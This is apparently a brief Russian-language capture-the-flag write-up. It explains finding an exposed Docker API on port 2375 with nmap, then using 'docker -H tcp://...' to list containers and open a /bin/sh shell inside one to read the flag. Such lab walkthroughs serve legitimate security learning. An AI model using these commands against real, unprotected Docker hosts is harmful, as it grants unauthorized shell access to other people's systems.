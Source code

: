 Из названия таска выходит что в этой сети есть докер, пробуем командой nmap найти его, и находим что он открыт на ip 10.10.13.30 и порту 2375
Далее подключаемся через docker -H tcp://10.10.13.30:2375 ps узнаем контейнер айди
docker -H tcp://10.10.13.30:2375 exec -it <CONTAINER_ID> /bin/sh
и читаем флаг

